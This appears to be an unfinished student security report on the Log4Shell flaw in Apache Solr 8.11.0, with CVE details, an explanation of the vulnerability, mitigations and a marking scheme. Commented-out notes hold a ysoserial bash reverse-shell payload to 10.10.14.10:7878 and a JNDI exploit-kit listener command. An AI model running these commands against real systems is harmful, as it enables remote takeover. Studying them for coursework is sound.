

# Java Deserialisation

## CVE-2021-44228: Log4Shell Present in Apache Solr 8.11.0

### Vulnerability Overview

CVSS 3.1 Score: 10.0  (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H) [^NIST2026Log4Shell]

Linked CWEs: [^NIST2026Log4Shell][^CVEOrg2023Log4Shell]

- CWE-20: Improper Input Validation
- CWE-400: Uncontrolled Resource Consumption
- CWE-502: Deserialization of Untrusted Data
- CWE-917: Improper Neutralization of Special Elements used in an Expression Language Statement ('Expression Language Injection')

### Vulnerability Explanation: Underlying Security Theory, Relevant Weaknesses and Classification

<!-- #### Regarding Log4Shell Specifically -->

CVE-2021-44228, colloqiually known as Log4Shell, is a vulnerability that allows attackers to achieve remote code execution by exploiting insecure deserialisation in the Apache Log4j 2 library, a widely used logging library in Java applications. By default, Log4j will evaluate parameters in logs, enabling the lookup of remote servers.

One of the key features of Log4j is the ability to interpret strings to enrich log messages, wrapped within `${prefix:query}` [^Hiesgen2024Log4Shell]. Whilst this could be used for legitimate purposes such as idenfying hostnames within logs, `Apache Log4j2 2.0-beta9` through `2.15.0` accepts a prefix that triggers a JNDI lookup, enabling an attacker to link to a controlled LDAP server. There is no validation against this implemented within `Solr 8.11.0`, nor is there validation against serialised objects recieved from external servers, which enables RCE from crafted serialised objects when an attacker is able to control log messages or log message parameters [^NIST2026Log4Shell].

Apache Solr is a search server that is designed for document retrieval and analytical applications on structured and unstructured datasets [^Deniz2023ApacheSolr]. The following flow diagram illustrates the deserialisation vulnerability as it would occur during runtime, as well as the intended (patched) flow of the program.

The Log4Shell vulnerability was estimated to be present within 10% of all digital assets, enabling attackers to conduct a wide array of activities such as data exfiltration, ransomware installation and denial of service [^IBM2023Log4Shell][^Hiesgen2024Log4Shell].

<!--
#### Deserialisation in general

Insecure deserialisation occurs when a web application trusts serialised data without taking steps to validate it's authenticity. In Java, object serialisation is facilitated through the `Serializable` interface, allowing objects to be converted into byte streams and vice versa for network communication and data persistence.

Deserialisation errors can be identified by either analyzing the source code of a Java application for use of the `Serializable` module, or by performing black box testing using a tool such as Ysoserial.

Object injection is a vulnerability that arises from insecure data deserialisation in web applications. It occurs when untrusted data is deserialised into an object, allowing attackers to manipulate the serialised data to execute arbitrary code, leading to serious security risks.
-->

---

### Demonstration of Exploitability

---

### Identifying the Vulnerability Using Techniques and Tools

The presence of `Apache Solr 8.11.0` on a machine can be confirmed through nmap port scanning `nmap -v -p` on the target machine, with the Admin UI being served on port 8983 by default [^Apache2021SolrAdminUI].

<!--
#### Ysoserial for Java

Ysoserial is a widely recognised exploitation tool specifically crafted to test the security of Java applications against serialisation vulnerabilities. It helps generate payloads that exploit these vulnerabilities, making it an essential tool for attackers and penetration testers who aim to assess and exploit applications that use Java serialisation.

To use Ysoserial, an attacker would typically generate a payload with a command such as `java -jar ysoserial.jar [payload type] '[command to execute]'`, where `[payload type]` is the type of exploit and `[command to execute]` is the arbitrary command they wish to run on the target system. For example, using the `CommonsCollections1` payload type might look like this: `java -jar ysoserial.jar CommonsCollections1 'calc.exe'`. This command generates a serialised object that will execute the specified command when deserialised by a vulnerable application. Ysoserial is available for download on GitHub.

RCE - JNDI-Injection-Exploit-Plus
https://github.com/cckuailong/JNDI-Injection-Exploit-Plus is another tool for generating workable JNDI links and provide background services by starting RMI server,LDAP server and HTTP server.\

RCE - ysoserial & JNDI-Exploit-Kit
This option is useful against applications on Java versions configured to trust only specified classes. ysoserial generates serialized graphs of trusted classes that can act as gadgets for arbitrary code execution; the target application must have the gadget class used by ysoserial on its classpath.

Using ysoserial or ysoserial-modified you can create the deserialization exploit that will be downloaded by JNDI:

# Rev shell via CommonsCollections5
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.10/7878 0>&1' > /tmp/cc5.ser
Use JNDI-Exploit-Kit to generate JNDI links where payloads wait for connections from vulnerable machines. The kit can serve its automatically generated exploits or custom deserialization payloads generated manually or with ysoserial.

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.10:1389 -P /tmp/cc5.ser

-->

### How to Mitigate the Vulnerability

<!-- #### Fixing deserealisation at a generic level

There are two main perspectives for mitigation of deserialisation issues: the pentesting side and the secure coder side. From the offensive side, people can do the following:

- Codebase Analysis: Review the application’s serialization methods in detail. Identify potential points of serialization and deserialization within the codebase.
- Vulnerability Identification: Use static analysis tools to detect insecure deserialization issues. Inspect for outdated dependencies, unsafe libraries, and insufficient input validation.
- Fuzzing and Dynamic Analysis: Apply fuzzing techniques to generate unexpected or faulty input data. Utilize dynamic analysis tools to monitor application behavior during runtime.
- Error Handling Evaluation: Assess the application’s response to deserialization errors. Look for stack traces or error messages that may reveal system information.

From the Security Engineer's perspective, the following can be done:

- Use secure serialisation methods: Avoid insecure serialisation mechanisms and adopt safer formats such as JSON or XML with appropriate validation controls.
- Restrict dynamic code execution: Do not use functions such as eval() or exec(), as they can enable arbitrary code execution.
- Validate and sanitise data: Enforce strict input validation and apply appropriate sanitisation and encoding techniques to all data before processing.
- Follow secure development principles: Implement security best practices, including least privilege, defence in depth, and secure-by-default configurations.
- Comply with secure coding standards: Adhere to established security guidelines and framework-specific coding standards throughout the development lifecycle.

-->

### Retesting For Resilience

## Marking Scheme (For Reference)

| **Mark Range (%)** | **Knowledge & Understanding** | **Analysis** | **Reading & Research** | **Writing / Presentation Style** |
| --- | --- | --- | --- | --- |
| **80+** | Extraordinary and authoritative understanding of the five selected software errors, including root causes, exploit mechanisms, secure mitigations, verification, the Security Development Life Cycle and product risk. | Exceptional critical analysis of vulnerable and mitigated code. Exploitation, appropriate tool‑assisted testing and retesting are interpreted rigorously; security decisions, limitations and residual risks are evaluated convincingly. | Extensive, independent and critical research. Authoritative standards and high‑quality academic or technical sources are integrated throughout to substantiate technical claims, mitigations, lifecycle discussion and risk analysis. | Lively, precise and professional report with exceptional control of argument. Code, screenshots and tool results are clearly captioned, referenced and explained; appendices are complete; virtually error‑free. |
| **70–79** | Excellent and wide‑ranging understanding of the five software errors, their causes, exploitation, mitigation and retesting, with confident understanding of secure development lifecycle and risk principles. | Excellent and consistent analysis of practical evidence. Vulnerable and mitigated code, exploits, security‑tool findings and retests are interpreted critically, with well‑justified controls and thoughtful consideration of limitations and residual risk. | Excellent independent research using a wide range of relevant academic and authoritative technical sources. Evidence is selected critically, integrated effectively and used consistently to support claims. | Excellent, coherent and professional presentation with strong control of argument. Figures, code and test evidence are consistently captioned, referenced and discussed; source‑code appendices are complete; very few errors. |

## References

[^NIST2026Log4Shell]: <https://nvd.nist.gov/vuln/detail/cve-2021-44228>
[^CVEOrg2023Log4Shell]: <https://www.cve.org/CVERecord?id=CVE-2021-44228>
[^Deniz2023ApacheSolr]: <https://dergipark.org.tr/en/doi/10.17714/gumusfenbil.1213317>
[^IBM2023Log4Shell]: <https://www.ibm.com/think/topics/log4shell>
[^Hiesgen2024Log4Shell]: <https://ieeexplore.ieee.org/document/10628102>
[^Apache2021SolrAdminUI]: <https://solr.apache.org/guide/8_11/overview-of-the-solr-admin-ui.html>
